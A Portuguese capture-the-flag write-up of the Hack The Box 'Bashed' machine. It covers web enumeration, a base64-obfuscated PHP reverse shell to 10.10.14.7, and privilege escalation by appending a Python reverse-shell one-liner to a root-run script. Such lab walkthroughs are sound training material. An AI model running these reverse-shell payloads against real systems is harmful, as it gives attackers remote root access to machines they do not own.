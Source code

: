 Enumeração dos serviços:
![[/Write-up/Hack The Box/Bashed/img/Pasted image 20240206110003.png]]
Enumeração de diretórios e arquivos:
```bash
feroxbuster -u http://10.10.10.68 -A -x txt -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -C 404
```

Descoberta do arquivo `http://10.10.10.68/dev/phpbash.php` onde é possível executar comandos no servidor:
![[Pasted image 20240206111038.png]]
Vamos criar um arquivo em PHP que irá enviar a shell reversa para a máquina atacante dentro de `/var/www/html/uploads` e acessar o arquivo no endpoint `/uploads.shell.php`
```bash
echo PD9waHAgZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjcvMTIzNCAwPiYxJyIpOyA/Pgo= | base64 -d > shell.php
```
Ao rodar o comando `sudo -l` percebemos que o usuário `scriptmanager` tem permissão de sudo em todos os binários.
![[Pasted image 20240206131212.png]]![[Pasted image 20240206131216.png]]
Vamos então fazer a movimentação lateral com o comando: `sudo -u scriptmanager /bin/bash`.
![[Pasted image 20240206131306.png]]
Com o usuário scriptmanager, podemos procurar por arquivos que pertencem a esse usuário e encontramos o `test.py` dentro de `/scripts/test.py`
![[Pasted image 20240206131432.png]]
Analisando a pasta `/scripts` percebemos que o script roda periodicamente e cria um arquivo com permissões root dentro da mesma pasta.
Vamos então incluir uma linha no scrip que irá nos enviar a shell do root: 

```bash
echo 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",1222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' >> test.py
```
Aguardamos um pouco e recebemos a shell como root:
![[Pasted image 20240206162104.png]]
